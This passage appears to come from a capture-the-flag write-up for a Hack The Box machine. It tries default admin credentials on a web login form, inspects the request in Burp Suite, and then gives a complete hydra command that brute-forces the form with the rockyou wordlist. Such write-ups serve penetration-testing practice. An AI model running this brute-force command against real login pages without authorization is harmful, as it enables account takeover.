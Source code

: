 Using the credentials *admin:admin*, we are able to see that we only input an invalid password.

![x](9-screenshots-storage/invalid_pass.png)


Using BurpSuite, we can see the paramaters for the login form and get the response for inputting an invalid password.

![x](9-screenshots-storage/burp_invalid_post.png)

We can now craft a command to use hydra to brute force the login.

```txt
hydra 10.10.10.43 -l admin -P /usr/share/wordlists/rockyou.txt -e nsr -o /HTB-boxes/Ninevah/2-enum/http/hydra_http_host.md http-form-post "/department/login.php:username=^USER^&password=^PASS^:Invalid Password" -t 10
```
